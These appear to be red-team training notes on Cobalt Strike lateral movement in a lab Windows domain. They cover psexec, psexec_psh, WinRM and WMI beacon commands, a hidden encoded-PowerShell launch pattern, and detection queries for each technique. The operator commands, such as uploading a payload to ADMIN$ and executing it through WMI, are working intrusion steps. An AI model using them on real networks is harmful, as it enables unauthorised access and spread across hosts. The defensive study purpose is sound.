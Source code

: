# Lateral Movement

Moving between hosts in a domain helps access sensitive information and obtain new credentials. Using Aggressor, custom methods can be used for **jump** and **remote-exec**. Each of these strategies are compatible with User Impersonation techniques (e.g. use pth to impersonate a user and then jump to move laterally). Some of Seatbelt's commands can also be run remotely (e.g. ```execute-assembly Seatbelt.exe OSInfo -ComputerName=web```).

### jump

```jump [method] [target] [listener]``` spawns a beacon payload on the remote target (and connect to it if using a P2P listener).

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM

### remote-exec

```remote-exec [method] [target] [command]``` executes the command on the target (not exclusive to lateral movement). Needs more manual work to manage the payload, but does offer a wider degree of control. 

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI

## Windows Remote Management

The **winrm / winrm64** methods return a high priv beacon running as the user interacting with the remote machine. SMB Beacon traffic blends in very well with expected traffic on Windows networks.

```jump winrm64 web.dev.cyberbotic.io smb``` - creates a Beacon that runs inside wsmprovhost.exe (the Host process for WinRM plug-ins), used whenever WinRM is used, legitimate or not. 

Admins can search for process start events, but get a lot of false positives. Best way to catch is to search PS script block logs for known payload artefacts, e.g. ```event.category: process and powershell.file.script_block_text: "$var_runme.Invoke([IntPtr]::Zero)"```

## PsExec

**psexec / psexec64** upload a service binary to the target, then create and starting a service to execute that binary. Beacons run as SYSTEM. 

```jump psexec64 web.dev.cyberbotic.io smb``` 

Catch by looking for 4697 service created events (which are rare, unless a service comes with other software). CS uses a random 7-char alphanumeric string for service name and binary filename. When setting the binPath for the service, it uses a UNC path to the ADMIN$ share: ```event.code: 4697 and winlog.event_data.ServiceFileName: \\\\*\\ADMIN$\\*.exe```

**psexec_psh** doesn't copy a binary to the target, but runs a PS 32-bit command. The pattern it uses by default is ```%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand ....```

```jump psexec_psh web smb```

## Windows Management Instrumentation (WMI)

WMI is part of remote-exec, which uses WMI's "process call create" to run a command on the target. Easiest way is to upload a payload to the target and run it via WMI. The process runs in an elevated context of the calling user.

    beacon> cd \\web.dev.cyberbotic.io\ADMIN$
    beacon> upload C:\Payloads\smb_x64.exe
    beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
    beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10  // connect to process

To catch, look for process create events where WmiPrvSE is the parent: ```event.category: process and event.type: start and process.parent.name: WmiPrvSE.exe```



